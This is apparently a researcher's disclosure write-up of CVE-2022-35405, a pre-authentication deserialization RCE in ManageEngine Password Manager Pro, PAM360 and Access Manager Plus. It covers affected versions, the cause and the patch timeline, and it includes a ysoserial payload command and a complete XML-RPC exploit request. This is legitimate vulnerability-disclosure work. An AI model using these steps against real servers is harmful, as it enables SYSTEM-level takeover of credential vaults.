 ```yaml
---
layout: article
title:  "CVE-2022-35405 Manage engines RCE (Password Manager Pro, PAM360 and Access Manager Plus)"
tags:  eng cve
---
```



<img class="image image--lg" src="/assets/cve202235405/engine.png"/>

"This remote code execution vulnerability could allow remote attackers to execute arbitrary code on affected installations of Password Manager Pro, PAM360 and Access Manager Plus. Authentication is not required to exploit this vulnerability in Password Manager Pro and PAM360 products."


| Product Name         | Affected Version(s)    |
|----------------------|------------------------|
| PAM360               | 5.5 (5500) and below   |
| Password Manager Pro | 12.1 (12100) and below |
| Access Manager Plus  | 4.3 (4302) and below   | (authenticated)

This vulnerability happens due to a vulnerable version of ApacheOfBiz (CVE-2020-9496) that exposes an `XML-RPC` endpoint at `/webtools/control/xmlrpc` in case of Manage Engine products this endpoint is `/xmlrpc`.  This endpoint can deserealizes java objects, as part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands.

First this vulnerability was found in Password Manager Pro, however after the report and disclosure of the Security Fixes it was identified that the vulnerability also existed in PAM360 and Access Manager Plus installations. 

On the PMP context, the RCE has nt authority/system permissions on the affected server and can be used to enter internal networks, compromise data on the server or crash or shutdown the whole server and applications.

More information about CVE-2020-9496 exploitation can be found [here](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496) or [here](https://www.cnblogs.com/ph4nt0mer/p/13576739.html)

### **Exploitation**
For generate java serialized object payload, [Ysoserial](https://github.com/frohoff/ysoserial) can be used:
It is needed that the ysoserial tool library versions match the server org.apache.commons.beanutils version, if the versions don't match: `Failed to read result object: org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc serialVersionUID = -2044202215314119608, local class serialVersionUID = -3490850999041592962 ` (something like that) follow the instructions of [this article](https://rhinosecuritylabs.com/research/java-deserializationusing-ysoserial/) to bypass that finding the exact server lib version by serialVersionUID and changing the pom.xml of ysoserial.

```bash
java -jar ysoserial-version.jar CommonsBeanutils1 'command' | base64 | tr -d "\n"
```
![Untitled](/assets/cve202235405/1.png)

Replace the `[base64-payload]` and send the request:

```html
POST /xmlrpc HTTP/1.1
Host: host-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![Untitled](/assets/cve202235405/2.png)

![Untitled](/assets/cve202235405/3.png)

If the response was `InvocationTargetException: java.lang.reflect.InvocationTargetException` it worked, this exception was trigged after the execution of the payload.

I wrote an exploit to make it easier to explore and you can find it here: [https://github.com/viniciuspereiras/CVE-2022-33405/](https://github.com/viniciuspereiras/CVE-2022-33405/)

#### Extra
I'd like to thank the security community, although I can't disclose vulnerability information, there were some researchers who managed to go after it and come up with a working poc, exploits and metasploit modules.
If you want to take a look:
- [https://xz.aliyun.com/t/11578](https://xz.aliyun.com/t/11578)
- [https://packetstormsecurity.com/files/167918/Zoho-Password-Manager-Pro-XML-RPC-Java-Deserialization.html](https://packetstormsecurity.com/files/167918/Zoho-Password-Manager-Pro-XML-RPC-Java-Deserialization.html)

Nuclei template:
- [https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-35405.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-35405.yaml)

### Coordinated Disclosure Timeline
-   06/21/2022: Report sent to vendor.
-   06/21/2022: Manage Engine acknowledges the issue.
-   06/24/2022: Issue fixed [Release note](https://www.manageengine.com/products/passwordmanagerpro/release-notes.html#12101)
-   07/11/2022: [CVE-2022-35405](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-35405)

